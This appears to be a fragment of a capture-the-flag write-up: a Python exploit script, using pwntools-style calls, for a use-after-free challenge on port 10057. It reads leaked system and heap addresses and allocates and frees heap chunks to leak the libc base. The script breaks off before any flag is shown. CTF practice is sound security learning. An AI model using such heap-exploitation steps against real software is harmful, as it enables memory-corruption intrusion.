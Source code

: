 > laek_libc.py

```python
context.arch = 'amd64'

uaf_worker = UAFWorker(10057)

uaf_worker.conn.recvuntil(b'gift1: ')
system_addr = int(uaf_worker.conn.recvline().strip(), 16)
print(f"{hex(system_addr) = }")

uaf_worker.conn.recvuntil(b'gift2: ')
heap_leak = int(uaf_worker.conn.recvline().strip(), 16)
print(f"{hex(heap_leak) = }")

# need to malloc and free into unsorted bin

for i in range(0x9):
    uaf_worker.register_entity(i)
    uaf_worker.set_name(i, 0x88, b'a')

for i in range(0x9):
    uaf_worker.delete_entity(i)

for i in range(0x8):
    uaf_worker.register_entity(i)
    uaf_worker.set_name(i, 0x88, b'a')

print(f"{hex(system_addr) = }")
print(f"{hex(heap_leak) = }")

uaf_worker.interactive()
# 4 7
# will show libc base
```

> Flag
